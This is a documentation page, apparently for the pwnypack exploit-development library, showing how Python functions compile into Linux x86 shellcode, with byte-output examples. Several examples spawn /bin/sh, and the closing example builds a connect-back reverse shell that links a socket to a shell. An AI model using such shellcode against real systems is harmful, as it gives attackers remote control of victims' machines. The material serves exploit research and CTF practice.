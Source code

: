 .. _imperative-shellcode:

Imperatively defined shellcode
==============================

When using the imperatively defined shellcode, you translate a python function
to a set of shellcode primitives.

The set of operations you can use in your python function is limited. The
properties of the environment (syscalls, registers, functions) are exposed
as if they were magic globals: you cannot shadow them. From your shellcode
generator you can call syscalls and other primitives of the environment,
assign values to registers, use in-place addition/subtraction on registers
and assign values to locals (f.e. allocated buffers or data). You can also
access globals outside the shellcode generator function (f.e. pwnypack's
packing functions to construct data structures).

If you want to create a re-usable fragment for a commonly used subroutine,
you can do so by creating a function and decorating it with the
:func:`~pwnypack.shellcode.translate.fragment` decorator. If such a function
is called from within a shellcode function it will be translated in the
context of the current shellcode environment. Do note however that fragments
are inlined in the resulting shellcode, they're not implemented as functions.

You translate a function by using the environment's
:meth:`~pwnypack.shellcode.base.BaseEnvironment.translate` class method.

Examples:

    The following example creates an instance of the LinuxX86 environment
    and assembles a piece of shellcode that just calls the exit system call.

    >>> from pwny import *
    >>> @sc.LinuxX86Mutable.translate
    ... def shellcode():
    ...     sys_exit(0)
    ...
    >>> shellcode()
    '1\xdb\xb8\x01\x00\x00\x00\xcd\x80'

    To demonstrate how registers loading works, here's an example that does
    the same thing but in a different way:

    >>> from pwny import *
    >>> @sc.LinuxX86Mutable.translate
    ... def shellcode():
    ...     EAX = 0
    ...     sys_exit(EAX)
    ...
    >>> shellcode()
    '1\xc0\x89\xc3\xb8\x01\x00\x00\x00\xcd\x80'

    You can also use strings or bytes. If you use a unicode string, it will
    be UTF-8 encoded and zero-terminated. Bytes are allocated verbatim.

    >>> from pwny import *
    >>> @sc.LinuxX86Mutable.translate
    ... def shellcode():
    ...     sys_write(1, u'hello', 5)
    ...     sys_exit(0)
    ...
    >>> shellcode()
    '\xe8\x00\x00\x00\x00]\x83\xc5 \xba\x05\x00\x00\x00\x89\xe9\xbb\x01\x00\x00\x00\xb8\x04\x00\x00\x00\xcd\x801\xdb\xb8\x01\x00\x00\x00\xcd\x80hello\x00'

    Or use lists as syscall arguments.

    >>> from pwny import *
    >>> @sc.LinuxX86Mutable.translate
    ... def shellcode():
    ...     sys_execve(u'/bin/sh', [u'/bin/sh', None], None)
    ...
    >>> shellcode()
    '\xe8\x00\x00\x00\x00]\x83\xc5\x151\xd21\xc0PU\x89\xe1\x89\xeb\xb8\x0b\x00\x00\x00\xcd\x80/bin/sh\x00'

    Need a buffer to write something to? We've got you covered.

    >>> from pwny import *
    >>> @sc.LinuxX86Mutable.translate
    ... def shellcode():
    ...     buf = alloc_buffer(64)
    ...     sys_read(0, buf, buf.length)
    ...     sys_write(1, buf, buf.length)
    ...     sys_exit(0)
    ...
    >>> shellcode()
    '\xba@\x00\x00\x00\x89\xe91\xdb\xb8\x03\x00\x00\x00\xcd\x80\xba@\x00\x00\x00\x89\xe9\xbb\x01\x00\x00\x00\xb8\x04\x00\x00\x00\xcd\x801\xdb\xb8\x01\x00\x00\x00\xcd\x80'

    You can also pass parameters to the shellcode function.

    >>> from pwny import *
    >>> @sc.LinuxX86Mutable.translate
    ... def shellcode(command):
    ...     sys_execve(u'/bin/sh', [u'/bin/sh', command, None], None)
    ...
    >>> shellcode(u'ls -lR')
    '\xe8\x00\x00\x00\x00]\x83\xc5\x1a1\xd21\xc0PU\x8dE\x07P\x89\xe1\x8d]\x07\xb8\x0b\x00\x00\x00\xcd\x80ls -lR\x00/bin/sh\x00'

    Combining all that, here's a somewhat larger example that also
    demonstrates using global and local variables, register aliases and
    fragments to implement a connect-back shell::

        from pwny import *
        import socket

        @sc.fragment
        def pack_sockaddr_in(addr, port):
            # Prepare the sockaddr_in struct:
            return pack(
                'H2s4s8s',
                socket.AF_INET,
                P16(port, endian=Target.Endian.big),
                socket.inet_aton(addr),
                b'........',  # Doesn't really have to be \0.
                target=target  # This is a fragment, target refers to the
                               # environment's target attribute.
            )

        @sc.fragment
        def exec_to_fd(fd, executable):
            # Set up register aliases (for convenience):
            arg0 = SYSCALL_ARG_MAP[0]
            arg1 = SYSCALL_ARG_MAP[1]

            # Call dup2 to connect stdin/out/err to the fd:
            sys_dup2(fd, 0)
            arg1 += 1; sys_dup2(arg0, arg1)
            arg1 += 1; sys_dup2(arg0, arg1)

            # Execute the command:
            sys_execve(executable, [executable, None], None)

        @sc.LinuxX86Mutable.translate
        def shell_connect(addr, port, shell=u'/bin/sh'):
            # Pack the sockaddr_in struct using a fragment:
            sockaddr = pack_sockaddr_in(addr, port)

            # Set up register alias (for convenience):
            socket_reg = SYSCALL_ARG_MAP[4]

            # Prepare socket:
            socket_reg = sys_socket(socket.AF_INET, socket.SOCK_STREAM, socket.IPPROTO_TCP)
            sys_connect(socket_reg, sockaddr, len(sockaddr))

            # Call the fragment that calls dup2 and execve:
            exec_to_fd(socket_reg, shell)

